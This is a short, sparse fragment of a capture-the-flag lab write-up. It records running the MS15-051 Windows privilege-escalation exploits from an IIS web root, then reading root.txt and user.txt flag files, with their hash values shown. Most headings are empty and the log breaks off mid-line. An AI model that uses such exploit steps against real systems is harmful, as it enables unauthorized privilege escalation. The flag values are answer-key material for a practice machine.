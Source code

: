 ## Hashes

## Password

```
cd C:\Inetpub\wwwroot\
ms15-051.exe
ms15-051x64.exe


C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9


C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
C:\Documents and Settings\Lakis\D
```

## Proof, Flags, Other
